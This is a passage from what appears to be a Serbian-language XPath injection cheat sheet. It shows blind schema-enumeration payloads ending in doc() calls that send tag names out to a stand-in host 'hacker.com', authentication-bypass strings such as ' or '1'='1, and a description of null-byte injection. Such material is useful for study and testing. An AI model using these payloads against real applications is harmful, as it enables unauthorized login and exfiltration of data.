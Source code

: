 ```python
<c>
<d></d>
<e></e>
<f>
<h></h>
</f>
</c>
</root>

and name(/*[1]) = "root" #Confirm the name of the first tag is "root"
and substring(name(/*[1]/*[1]),1,1) = "a" #First char of name of tag `<a>` is "a"
and string-to-codepoints(substring(name(/*[1]/*[1]/*),1,1)) = 105 #Firts char of tag `<b>`is codepoint 105 ("i") (https://codepoints.net/)

#Stealing the schema via OOB
doc(concat("http://hacker.com/oob/", name(/*[1]/*[1]), name(/*[1]/*[1]/*[1])))
doc-available(concat("http://hacker.com/oob/", name(/*[1]/*[1]), name(/*[1]/*[1]/*[1])))
```

## Bypass autentifikacije

### **Primer upita:**

```
string(//user[name/text()='+VAR_USER+' and password/text()='+VAR_PASSWD+']/account/text())
$q = '/usuarios/usuario[cuenta="' . $_POST['user'] . '" and passwd="' . $_POST['passwd'] . '"]';
```

### **OR zaobilaženje u korisničkom imenu i lozinci (isti podatak u oba)**

```
' or '1'='1
" or "1"="1
' or ''='
" or ""="
string(//user[name/text()='' or '1'='1' and password/text()='' or '1'='1']/account/text())

Select account
Select the account using the username and use one of the previous values in the password field
```

### **Zloupotreba null ubrizgavanja**

Null ubrizgavanje je tehnika koja se koristi za iskorišćavanje grešaka u implementaciji XPath upita kako bi se dobili neželjeni rezultati ili otkrile osetljive informacije. Ova tehnika se zasniva na umetanju NULL bajtova u XPath izraz kako bi se prekinula interpretacija upita i izvršile neželjene operacije.

Da biste iskoristili null ubrizgavanje, prvo morate identifikovati tačku ubrizgavanja u aplikaciji. Ovo može biti mesto gde se korisnički unos koristi za formiranje XPath upita. Zatim, umetnite NULL bajtove u unos kako biste prekinuli izvršavanje upita i izvršili željene operacije.
